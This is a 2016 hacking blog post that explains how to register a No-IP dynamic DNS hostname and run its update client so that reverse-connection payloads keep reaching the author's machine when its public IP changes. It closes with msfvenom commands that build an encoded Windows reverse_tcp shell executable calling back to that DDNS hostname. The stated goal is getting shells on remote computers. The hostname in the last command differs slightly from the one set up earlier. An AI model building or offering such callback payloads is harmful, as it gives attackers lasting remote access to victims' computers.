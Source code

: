 ```yaml
---
date: 'Sun Mar 06 2016 13:58:02 GMT+0530 (India Standard Time)'
title: Use DDNS to Deal With Your Dynamic Public IP
tags:
  - Hacking
  - DNS
  - Metasploit
---
```


Many of us have an internet connection with a dynamic public IP. That poses some problems if you want to use that connection to host a website, or maybe for hackers like us, to hack using reverse connection payloads. I’m going to discuss in this post how you can overcome that using Dynamic DNS or DDNS. But I’m getting ahead of myself, so let me start by explaining what is public IP and what are some problems you can encounter if you have a dynamic one.


## Understanding Dynamic Public IP Address


Public IP is the IP that’s visible to machines outside your local network. For example, if two or more machines are connected through a router—maybe through Wi-Fi—to the internet, then the machines are in a local network, as well as both of them are connected to the Internet. Each of them has a locally unique private IP address, not globally. For connecting to the Internet they use the router’s public IP.

IP addresses can be static or dynamic. Most of the ISPs provide dynamic public IP, that means it changes from time to time, contrary to the static one, which remains fixed. You can check what’s your public IP by googling “What is my IP”, Google will tell you.

Having a dynamic IP address is a hindrance to hacking using reverse connection payloads. Reverse connection payloads, such as `android/meterpreter/reverse_tcp`, store the host IP address, i.e. the IP address of the attacker machine. When it gets executed, it connects back to the host machine by the reference of that host IP. But as dynamic IP keeps changing from time to time, you won’t be able to use a payload for a long time because after some time the IP stored inside it won’t point to your machine anymore. That’s a problem — a major one. This is where DDNS comes in.


## Dynamic DNS aka DDNS to The Rescue

We all know what DNS or Domain Naming System is, it’s the system which binds an IP to a domain name. When you try to connect to a domain name, for example opening www.google.com on a browser, the request first goes to a DNS server, which resolves the domain name into an IP, and then the browser gets the Google homepage from that IP. Similarly you can get a domain name for your machine and put that domain name in the place of HOST IP address in your payload. But the problem of your IP being dynamic still remains.

Here DDNS comes to the rescue. DDNS servers update the DNS record of your machine continuously, so that even for dynamic IP machines the domain name resolves to the correct IP, always.


## Setting up DDNS using No-IP

There are many DDNS providers, I'm going to use No-IP which is one of them.

### Step 1: Creating a No-IP account

Head to https://www.noip.com and create a free account there.

### Step 2: Adding a Hostname in No-IP

When you get to the dashboard, go to Dynamic DNS → Hostnames and add a hostname of your choice from there. You can also choose a domain name from a list there. The address you will get is `hostname.domain`. For example, I chose the default domain name—ddns.com—and the hostname I entered is _skulltech_. So the address I got is “skulltech.ddns.com”. Refer to the screenshots below for reference.

![step-1](/images/posts/ddns-dynamic-ip-step-11.png)
![step-2](/images/images/ddns-dynamic-ip-step-21.png)


### Step 3: Install the Dynamic DNS Update Client


Now you’ll need to install a program on your computer and set it up. So that it connects to No-IP server frequently and updates the DNS record. Download the update client from https://www.noip.com/download . It’s a tar.gz archive, extract it using the following command —
```console
$ tar -xzvf noip-duc-linux.tar.gz
```

![screenshot-from-2016-12-18-14-24-36](/images/posts/ddns-dynamic-ip-screenshot-from-2016-12-18-14-24-36.png)


After that change working directory to the newly extracted folder and run the following command to install the No-IP client.

```console
$ make install
```

![screenshot-from-2016-12-18-14-38-06](/images/posts/ddns-dynamic-ip-screenshot-from-2016-12-18-14-38-06.png)


After that the program will ask for your No-IP username and password.


### Step 4: Configure the Client and Run It


Run the following command to launch the configuration wizard of the No-IP client. It will ask you for your credentials, as well as which hostnames you want to update. Select the hostname—or hostnames—that you want to associate with this computer in that step.

```console
$ noip2 -C
```

When you are done with the configuration, just run `noip2` in the terminal to start the client, it will run in the background and keep updating your DNS record.

```console
$ noip2
```

![screenshot-from-2016-12-18-14-49-56](/images/posts/ddns-dynamic-ip-screenshot-from-2016-12-18-14-49-56.png)


## Using DDNS Hostname in Payloads


You can create a basic reverse shell payload for windows and get a shell on a remote computer on running it in that computer. Refer to this tutorial by Offensive Security for that, I won’t be going into details how to do that. Assuming that you already know how to create these payloads using _msfvenom_—if you don’t check out [this tutorial](/articles/embed-metasploit-payload-in-apk-easily/)—I'll show you how you can use your DDNS hostname there.

Generally we run a command like this to generate the payload. Here LHOST is the address of the our local machine, in the following example it’s _192.168.1.101_.

```console
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=192.168.1.101 LPORT=3333 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
```

Now that we have a DDNS hostname, pass that as LHOST to _msfvenom_ instead of your IP. So now the command will be —

```console
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=skulltech.ddn.com LPORT=3333 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
```

Feel free to leave a comment if you face any problem. Happy Hacking! :)
